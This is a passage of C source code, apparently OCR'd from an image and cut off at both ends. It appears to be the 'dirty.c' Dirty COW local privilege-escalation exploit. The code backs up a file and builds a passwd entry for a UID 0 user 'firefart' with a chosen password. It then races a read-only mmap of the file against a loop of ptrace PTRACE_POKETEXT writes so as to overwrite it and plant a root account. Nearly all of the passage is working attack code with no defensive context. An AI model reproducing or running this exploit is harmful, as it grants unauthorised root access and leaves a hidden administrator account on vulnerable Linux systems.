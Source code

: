   while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  } else {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n",c);